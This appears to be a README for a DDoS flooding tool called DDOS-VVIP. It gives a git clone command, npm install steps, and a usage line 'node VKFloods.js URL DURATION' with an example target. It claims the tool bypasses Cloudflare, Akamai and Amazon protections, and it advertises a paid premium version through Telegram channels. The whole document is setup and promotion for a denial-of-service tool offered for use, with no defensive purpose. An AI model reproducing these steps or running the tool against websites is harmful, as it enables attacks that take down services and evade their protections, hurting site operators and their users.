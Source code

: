 # DDOS-VVIP



git clone https://github.com/Pallset/VKDDoS-VVIP






install module




apt install npm


npm i cloudscraper


npm i request


npm i child_process

npm i exec


cd && cd VKDDoS-VVIP


Usage: node VKFloods.js URL DURATION


example: node VKFloods.js https://target.com 120


.


.


.


Support Termux && VPS


.


Bypassing CF, Rule, DDG, UAM, Akamai, Amazon


.


.


Jika Di Rasa Kurang Over Power Bisa Order Versi Premium


Official Telegram : https://t.me/vakyuss/


.


.


.


Telegram Channel : https://t.me/chtestiss/
publik telegeam : https://t.me/publikvakyuss/
